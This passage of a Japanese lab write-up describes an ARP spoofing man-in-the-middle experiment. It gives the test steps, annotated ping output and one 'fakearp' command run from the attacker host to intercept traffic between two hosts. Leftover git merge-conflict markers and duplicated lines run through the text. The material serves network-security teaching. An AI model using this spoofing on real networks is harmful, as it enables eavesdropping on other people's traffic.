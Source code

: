 手順 1 \- HOST\-AからHOST\-Bへ連続PINGを実行して応答があることを確認
手順 2 \- HOST\-AとHOST\-Bに対して、HOST\-CからARPスプーフィングを実行
手順 3 \- HOST\-AからHOST\-Bへの連続PINGが途絶えることを確認
手順 4 \- HOST\-CのIP転送機能を有効にする
手順 5 \- HOST\-AからHOST\-Bへの連続PINGが復旧することを確認
手順 6 \- HOST\-Cでtcpdumpを実行して、HOST\-AとHOST\-B間のpingのやりとりが盗聴できることを確認する


- 3.3.2 HOST\-A（クライアント）の実行結果

　はじめに、HOST\-AからHOST\-Bに対して連続PINGを実行して疎通できることを確
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
認します[手順 1]。
　その後、[手順 2]でARPスプーフィングを実行したことにより、疎通が途絶える
ことを確認します[手順 3]。
　[手順 4]のIP転送機能を有効化したタイミングで疎通が復旧したことを確認し
ます[手順 5]。

<<<<<<< HEAD
　以下は、ARPスプーフィングをおこなった際のHOST-AでのPING結果です。
　PINGの結果ではHOST-Cを経由しているのかどうかは分かりません。

-----[HOST-AからHOST-Bへの連続PING]
C:\Users\unya>ping -t 192.168.2.7

192.168.2.7 に ping を送信しています 32 バイトのデータ:
192.168.2.7 からの応答: バイト数 =32 時間 <1ms TTL=255 -
192.168.2.7 からの応答: バイト数 =32 時間 <1ms TTL=255  |
192.168.2.7 からの応答: バイト数 =32 時間 <1ms TTL=255  |---手順 1 疎通確認
192.168.2.7 からの応答: バイト数 =32 時間 <1ms TTL=255  |
192.168.2.7 からの応答: バイト数 =32 時間 <1ms TTL=255 -
要求がタイムアウトしました。                           - <--手順 2 ARPスプーフィング実行
要求がタイムアウトしました。                            |
要求がタイムアウトしました。                            |---手順 3 疎通が途絶えることを確認
要求がタイムアウトしました。                            |
要求がタイムアウトしました。                           -
192.168.2.7 からの応答: バイト数 =32 時間 =1ms TTL=255 - <--手順 4 IPパケット転送開始
192.168.2.7 からの応答: バイト数 =32 時間 =1ms TTL=255  |
192.168.2.7 からの応答: バイト数 =32 時間 =1ms TTL=255  |---手順 5 疎通が復旧することを確認
192.168.2.7 からの応答: バイト数 =32 時間 =1ms TTL=255  |
192.168.2.7 からの応答: バイト数 =32 時間 <1ms TTL=255 -
-----


○3.3.3 HOST-C（攻撃者）の実行結果

　HOST-Cは攻撃者です。HOST-Cでは、HOST-AおよびHOST-Bに対してARPスプーフィ
ングを実行します[手順 2]。
　HOST-AとHOST-B間の通信がすべてHOST-Cへ向かうように、送信元MACアドレスを
HOST-Cのアドレスに設定します。

　以下は、HOST-CでARPスプーフィングを実行しているところです。

-----[HOST-CでのARPスプーフィング実行]
HOST-C# ./fakearp -i em0 -sh 00:1f:d0:c0:24:da -sp 192.168.2.7 -dh 00:1b:d3:87:2a:59 192.168.2.5
=======
　以下は、ARPスプーフィングをおこなった際のHOST\-AでのPING結果です。
　PINGの結果ではHOST\-Cを経由しているのかどうかは分かりません。
